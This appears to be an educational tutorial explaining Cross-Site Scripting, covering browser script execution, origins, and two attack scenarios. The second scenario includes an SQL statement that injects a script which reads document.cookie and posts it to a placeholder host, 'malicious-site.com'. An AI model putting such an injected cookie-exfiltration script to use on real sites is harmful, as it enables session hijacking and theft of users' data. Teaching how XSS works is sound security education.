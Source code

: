 Cross-Site Scripting (XSS) occurs when malicious scripts, typically in the form of client-side code (usually JavaScript), into web pages viewed by other users. This injection can lead to unintended and potentially harmful behavior in the application.

## How XSS Works

XSS exploits the trust a user has in a particular website. When a web application doesn't properly validate or encode user input, it creates an opportunity for attackers to inject malicious scripts into the application's output.

### Browser Behavior and JavaScript Execution

To understand XSS, it's crucial to know how web browsers handle the content they receive:

1. **HTML Parsing**: When a browser loads a web page, it parses the HTML content, creating the Document Object Model (DOM) - a structural representation of the page.
2. **JavaScript Execution**: As part of this process, the browser automatically executes any JavaScript code it encounters. This code can be found in several places:
    - Within `<script>` tags in the HTML
    - In external JavaScript files linked via `<script src="...">` tags
    - In event handlers (e.g., `onclick="..."` attributes)
    - In URLs using the `javascript:` protocol
3. **Dynamic Content**: JavaScript can modify the DOM, allowing it to change the page's content and structure dynamically.
4. **Same-Origin Policy**: Browsers implement a security measure called the Same-Origin Policy, which restricts how a document or script loaded from one origin can interact with a resource from another origin. However, this doesn't prevent XSS attacks within the same origin.

#### What's an origin?

An "origin" in web security is defined by the combination of three things:

1. The scheme (protocol)
2. The hostname (domain)
3. The port number

More precisely:

1. Scheme: This is typically "http" or "https", but could also be other protocols like "ftp".
2. Hostname: This is the domain name or IP address of the server.
3. Port: This is the port number if specified. If no port is explicitly specified, the default port for the scheme is used (80 for HTTP, 443 for HTTPS).

For example:

- [https://www.example.com:443](https://www.example.com:443)
- [http://subdomain.example.com](http://subdomain.example.com)
- [https://example.com:8080](https://example.com:8080)

Each of these would be considered a different origin.

## Example XSS Scenario #1

Imagine a website that allows user comments. 

Here's how an XSS attack might unfold:

1. The attacker posts a comment containing malicious JavaScript code:
```js
Great article.

<script>
// put some malicioius javascript code here
</script>

Thanks for the writeup!
```

2. If the site doesn't properly sanitize this input, it might save the comment as-is in its database.
3. When other users view the page with this comment, their browsers will:
	1. Parse the HTML of the page
	2. Encounter the `<script>` tag within the comment
	3. Automatically execute the JavaScript code inside the script tag

^ This automatic execution of JavaScript is what makes XSS attacks so potent. The malicious code runs with the privileges of the website it's on, giving it access to sensitive data that the site has access to.

### What kind of malicious code?
Things like:
1. Stealing the user's cookies (which might contain session information)
2. Making requests to the website on behalf of the user
3. Logging keystrokes
4. Redirecting the user to a phishing site

## Example XSS Scenario #2: Database Compromise

In this scenario, we'll explore how XSS can occur when a website's database has been compromised, allowing an attacker to insert malicious scripts directly into the page content.

1. The attacker gains unauthorized access to the website's database, bypassing normal input channels and validation processes.
2. The attacker locates a table in the database that stores content directly output to web pages, such as article bodies, product descriptions, or site announcements.
3. The attacker inserts malicious JavaScript code into one or more of these content fields. 

**For example:**

```sql
UPDATE articles 
SET content = CONCAT(content, 

'<script>
// Malicious code here

let sensitive_data = document.cookie;
let attacker_url = "https://malicious-site.com/steal_data.php";
fetch(attacker_url, {
  method: "POST",
  body: JSON.stringify({stolen_data: sensitive_data})
});
</script>'
)

WHERE id = 12345;
```
    
4. When users visit the compromised page(s), their browsers will:
	1. Load the page content from the database
	2. Parse the HTML, including the injected script
	3. Automatically execute the malicious JavaScript code
5. The malicious code runs in the context of the trusted website, potentially:
	1. Stealing user cookies or session information
	2. Capturing form inputs (including passwords)
	3. Modifying the page content to display phishing forms
	4. Redirecting users to malicious sites

### Why This Scenario is Particularly Dangerous

1. **Bypasses Input Validation**: Since the attacker inserted the code directly into the database, any client-side or server-side input validation for user-submitted content is bypassed.
2. **Wide Impact**: A single database insertion could potentially affect thousands of users who view the compromised page(s).
3. **Difficulty in Detection**: The malicious code is served as part of the website's legitimate content, making it harder for security tools to detect.
4. **Persistence**: Until the compromise is detected and fixed, the XSS attack will continue to affect users, even if the initial database breach has been addressed.
5. **Trust Exploitation**: Users are more likely to trust content that appears to be a core part of the website rather than user-generated content.